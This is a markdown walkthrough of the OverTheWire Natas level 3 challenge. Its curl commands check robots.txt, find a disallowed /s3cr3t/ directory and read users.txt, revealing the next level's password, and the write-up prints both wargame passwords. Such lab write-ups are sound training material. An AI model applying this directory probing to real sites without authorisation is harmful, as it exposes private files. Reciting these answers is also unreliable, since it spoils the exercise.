

# Natas Level 2 → Level 3 

## 🧠 Goal

Find password to the next level
Username: natas3
URL:      http://natas3.natas.labs.overthewire.org
---

## 🔐 Credentials

- **Username:** `natas3`  
- **Host:** `http://natas3.natas.labs.overthewire.org`   
- **Port:** `80` (HTTP)  
- **Password:** `3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH` 

---

## 🖥️ Commands Used

```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas3", "pass": "3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH" };</script></head>
<body>
<h1>natas3</h1>
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
</body></html>

┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/

┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org/s3cr3t/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /s3cr3t</title>
 </head>
 <body>
<h1>Index of /s3cr3t</h1>
  <table>
   <tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="users.txt">users.txt</a></td><td align="right">2025-04-10 14:18  </td><td align="right"> 40 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.58 (Ubuntu) Server at natas3.natas.labs.overthewire.org Port 80</address>
</body></html>
```




```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

```
___

## 💡 Tips
```bash

```
___

## 📤 Output
```bash
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```
